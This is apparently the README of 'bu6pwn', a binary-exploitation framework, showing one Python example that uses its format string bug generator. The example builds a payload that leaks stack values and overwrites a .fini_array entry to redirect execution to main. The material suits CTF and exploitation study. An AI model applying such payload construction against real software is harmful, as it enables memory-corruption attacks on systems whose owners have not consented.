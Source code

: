 # bu6pwn
## Pwning Framework

### Functionalities
- Format String Bug Exploit Generator

    ```python
    #!/usr/bin/env python3
    from bu6pwn.FSB import FSB

    addr_main       = 0x0804849b
    addr_fini_arr   = 0x080496dc

    exploit = b'%2$08x%264$08x'

    fsb = FSB(header=len(exploit), count=len(exploit), size=2, debug=True)

    fsb.set_adrval(addr_fini_arr, addr_main)
    fsb.auto_write(index=7)
    exploit += fsb.get()
    print(exploit.decode())
    ```
